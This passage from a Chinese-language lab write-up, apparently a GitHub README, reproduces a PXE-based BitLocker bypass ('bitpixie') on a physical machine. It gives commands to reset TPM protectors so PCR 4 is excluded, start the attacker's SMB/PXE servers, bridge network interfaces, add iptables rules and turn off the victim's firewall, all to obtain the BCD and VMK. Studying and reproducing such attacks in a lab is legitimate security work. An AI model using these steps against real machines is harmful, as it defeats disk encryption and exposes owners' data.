

随后，回到管理员终端中，先删除原来的 TPM 保护器，然后重新添加 TPM 保护器，这样就会按照我们之前设置的 PCR 7 和 11 来进行配置了，注意前面我们知道我们的启动引导文件都是旧版来诱导的，所以 PCR 一定不能包含 `4` ，否则无法完成攻击：
```shell
manage-bde -protectors -get C:
manage-bde -protectors -delete C: -type tpm
manage-bde -protectors -add C: -tpm
manage-bde -protectors -get C:
```


物理机可能没有默认开启 IPv4 的 pxe 启动，所以我们需要进入 BIOS 中开启它，可以在网上查询什么快捷键进入 BIOS（不同电脑不一样这里不做说明），实在不行使用 "Shift + 重启" 后导航 “疑难解答 -> 高级选项 -> UEFI 固件设置” 也可以重启进入。我的物理机在 BIOS 中的 Advanced 标签页中，有 Advance\Network Stack Configuration 开启 Network Stack 和 Ipv4 PXE Support 就可以了。


现在进行物理网络连接的配置，这需要网线连接攻击机和受害机，攻击机上需要开启一个 DHCP 服务器来为受害机分配 IP 地址（可以手动分配），在攻击机上面提前开启 DHCP 服务器：
```bash
./start-server.sh smb <interface>
./start-server.sh pxe <interface>
```

后面可以尝试 ping 一下受害机的 IP 地址，看看网络是否通了，如果不通的话需要检查一下网络配置：
```bash
brctl show virbr0
```
查看 `interfaces` 项是否为空，如果是的话，我们要手动添加一下物理网口，先查看再添加（需要自行辨别一下）：
```bash
ip link show
sudo brctl addif virbr0 <interface>
brctl show virbr0
```


当我们再次查看 `interfaces` 项时，应该会看到我们添加的物理网口了，这时候就可以尝试 ping 一下受害机的 IP 地址了，受害机的 IP 地址可以在受害机上输入 `ipconfig` 来查看，如果 ping 不通的话需要检查一下网络配置，确保攻击机和受害机在同一个网络段上了。

如果出现受害机可以 ping 攻击机了，但是攻击机 ping 受害机不通的话，这时候需要检查一下受害机的防火墙设置，确保允许来自攻击机的流量了，可以临时关闭一下防火墙：
```powershell
netsh advfirewall set allprofiles state off
```
当然，我们攻击机为了确保 10.13.37.0/24 这个网段的流量不被拦截，执行这两条命令（实际上不配置一般也可以正常连接）：
```bash
sudo iptables -I LIBVIRT_FWI 1 -s 10.13.37.0/24 -j ACCEPT
sudo iptables -I LIBVIRT_FWO 1 -d 10.13.37.0/24 -j ACCEPT
```

但是实际上我们在高级启动进入命令行时，联网这一步往往不是自动完成的，就和前面配置虚拟机这样，需要我们手动配置一下驱动，当然不像虚拟机这样简单，首先我们要在一个 U 盘中准备好[驱动文件](https://drivers.mydrivers.com/s-3-0/h0-0-0-0-0-1-1.htm)，然后再在受害机上面加载驱动，配置网络，这一步简单而且与前面几乎一模一样，就不多说明。后面的步骤和前面虚拟机的步骤是一样的了，直接按照前面的步骤来就可以了，拿到我们需要的 BCD 文件。

当然，实际上我们也可以直接从和物理机相同系统的虚拟机上面直接提取 BCD 文件，这样就不需要在物理机上面进行网络配置了，直接在虚拟机上面提取了之后再通过 SMB 传输到攻击机上面就可以了，这样可以简单方便很多，但是这种方式也有一定的风险会导致 BCD 的版本不对导致后续找不到 VMK 文件。

后面进入 PXE 启动，后续操作没有区别了。但是由于硬件不支持等等问题，可能会出现引导失败导致崩溃或者成功进入却无法获得 VMK 文件。所以在物理机上面进行复现的时候，很有可能由于各种软硬件环问题导致复现成功率非常低，或许这也是这个漏洞看似严重但却没有被广泛利用和修复的原因之一了。

## 跪求 star

如果对您有帮助，请给个 Github 项目 [star](https://github.com/LR2006-Robot/bitpixie) 吧！！！


## 免责声明

**免责声明**：本人所有文章均为技术分享，均用于防御为目的的记录，所有操作均在实验环境下进行，请勿用于其他用途，否则后果自负。
